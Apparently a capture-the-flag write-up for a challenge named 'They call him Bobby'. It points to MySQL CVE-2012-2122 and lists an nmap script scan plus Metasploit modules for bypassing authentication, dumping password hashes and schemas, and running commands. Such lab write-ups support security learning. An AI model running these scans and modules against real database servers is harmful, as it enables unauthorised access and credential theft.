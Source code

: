 # They call him Bobby

![Alt text](image_001.png)

### They call him Bobby  - Resolution

<https://bobby-tables.com/>

Seems this version of mysql has a security flaw. - CVE-2012-2122

- <https://www.rapid7.com/blog/post/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql/>

- <https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql>

- nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
- msf> use auxiliary/scanner/mysql/mysql_version
- msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
- msf> use auxiliary/scanner/mysql/mysql_hashdump #Creds
- msf> use auxiliary/admin/mysql/mysql_enum #Creds
- msf> use auxiliary/scanner/mysql/mysql_schemadump #Creds 
- msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds

![Alt text](image_002.png)

![Alt text](image_003.png)

![Alt text](image_004.png)

![Alt text](image_005.png)

``` Flag :  ```
